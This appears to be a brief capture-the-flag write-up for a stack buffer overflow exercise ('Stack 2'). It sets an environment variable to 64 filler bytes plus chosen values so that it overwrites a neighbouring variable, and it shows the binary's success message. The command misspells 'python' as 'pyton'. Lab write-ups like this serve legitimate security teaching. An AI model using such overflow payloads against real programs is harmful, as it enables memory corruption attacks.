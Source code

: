 #Stack 2

Setting environment variable:

```
export GREENIE=$(pyton -c 'print "A" * 64 + "\x0a\x0d\x0a\x0d"')
```

After setting environment variable, run the binary

```
you have correctly modified the variable
```
